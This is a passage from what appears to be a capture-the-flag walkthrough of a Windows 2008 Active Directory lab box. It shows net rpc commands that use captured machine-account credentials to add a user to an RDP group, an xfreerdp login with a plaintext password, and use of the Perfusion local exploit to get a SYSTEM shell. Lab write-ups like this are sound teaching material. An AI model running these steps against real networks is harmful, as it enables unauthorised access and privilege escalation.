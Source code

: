 ```
```

## admws01
Going back to bloodhound, we find that as `admws01` we can add ourselfs to the services group which has RDP access.
Since we have a user account (ldapreader), its best to add them to the services group.
```
┌──(tsunami㉿coffee)-[~/Documents/retroTwo]
└─$ net rpc group addmem "services" ldapreader -U retro2.vl/'admws01$'%P@ssw0rdADM -S 10.129.173.72

we can confirm we added this user with
net rpc group members "services" -U retro2.vl/'admws01$'%P@ssw0rdADM -S 10.129.173.72
┌──(tsunami㉿coffee)-[~/Documents/retroTwo]
└─$ net rpc group members "services" -U retro2.vl/'admws01$'%P@ssw0rdADM -S 10.129.173.72
RETRO2\inventory
RETRO2\ldapreader
RETRO2\FS01$
```
I had to use net rpc as bloodyAD refused to work properly.

We can finally RDP as ldapreader.
```
xfreerdp3 /u:ldapreader /p:ppYaVcB5R /v:retro2.vl /tls:seclevel:0 // without tls:seclevel:0, this will always fail.
```

## root

Gaining root was fairly straight forwards, as we're on a really old windows 2008 server, there is an old exploit named `perfusion`.
https://github.com/itm4n/Perfusion <br>
First, download this as a .zip, then using visual studio we have to compile it manually.
![capture-6](capture-06.PNG)

After compiling it, we then have to transfer this .exe to the victim (use certutil for this).
Once the victim has recieved the .exe, running it with -c cmd -i, we gain a NT authority shell.
![capture-7](capture-07.PNG)